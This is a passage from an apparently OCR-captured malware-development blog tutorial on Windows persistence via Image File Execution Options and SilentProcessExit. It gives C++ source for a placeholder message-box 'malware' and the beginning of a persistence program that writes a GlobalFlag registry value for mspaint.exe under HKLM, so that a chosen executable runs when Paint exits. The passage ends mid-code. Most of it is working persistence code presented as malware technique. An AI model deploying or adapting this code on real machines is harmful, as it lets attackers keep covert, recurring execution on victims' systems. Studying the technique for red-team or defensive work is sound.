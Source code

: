 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`        

### practical example

Let's go to run our malware once Microsoft Paint (`mspaint.exe`) is silently exiting.     

So, let's say we have our "malware" (`hack.cpp`):   

```cpp
/*
hack.cpp
evil app for windows persistence via IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, as usually, I use "meow-meow" message box "malware" =^..^=    

Then, create persistence script for modify registry (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }
```